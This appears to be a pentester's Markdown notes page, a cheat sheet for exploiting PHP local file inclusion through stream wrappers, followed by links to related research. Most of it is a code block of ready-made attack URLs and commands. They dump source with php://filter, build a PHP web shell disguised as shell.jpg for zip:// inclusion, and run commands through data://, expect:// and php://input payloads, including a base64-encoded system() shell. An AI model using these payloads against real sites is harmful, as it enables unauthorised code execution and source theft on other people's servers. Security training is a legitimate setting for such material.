 ```bash
# file:// wrapper
http://10.11.0.22/menu.php?file=data:text/plain,hello world

# php:// + filter
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php

# zip:// wrapper
## Upload a zip file with a PHP shell inside
echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;  
zip payload.zip payload.php;
mv payload.zip shell.jpg;
rm payload.php

http://example.com/index.php?page=zip://shell.jpg%23payload.php

# data:// wrapper
http://example.net/?page=data://text/plain,<?php echo base64_encode(file_get_contents("index.php")); ?>
http://example.net/?page=data://text/plain,<?php phpinfo(); ?>
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
NOTE: the payload is "<?php system($_GET['cmd']);echo 'Shell done !'; ?>"

# expect:// wrapper
http://example.com/index.php?page=expect://id
http://example.com/index.php?page=expect://ls

# input:// wrapper
## Specify your payload in the POST parameters
http://example.com/index.php?page=php://input
POST DATA: <?php system('id'); ?>
```

![](../../zzz_res/attachments/LFI-file_wrapper.png)

Other potential exploitation vectors using filters are mentioned in:
- [Introducing Lightyear, a New Way to Dump PHP Files](../../Readwise/Articles/Charles%20Fol%20-%20Introducing%20Lightyear,%20a%20New%20Way%20to%20Dump%20PHP%20Files.md#Introducing%20Lightyear,%20a%20New%20Way%20to%20Dump%20PHP%20Files)
- [Introducing wrapwrap: using PHP filters to wrap a file with a prefix and suffix](https://blog.lexfo.fr/wrapwrap-php-filters-suffix.html)
#### LFI2RCE using basic wrappers


[^1]: https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d
[^pearcmd]: [Clever use of `pearcmd.php`](https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html#0x06-pearcmdphp)
[^video]: [Website Vulnerabilities to Fully Hacked Server](https://www.youtube.com/watch?v=yq2rq50IMSQ&ab_channel=JohnHammond)
[^2]: [PHP FIlter Chains: File Read From Error-based oracle](https://www.synacktiv.com/en/publications/php-filter-chains-file-read-from-error-based-oracle); www.synacktiv.com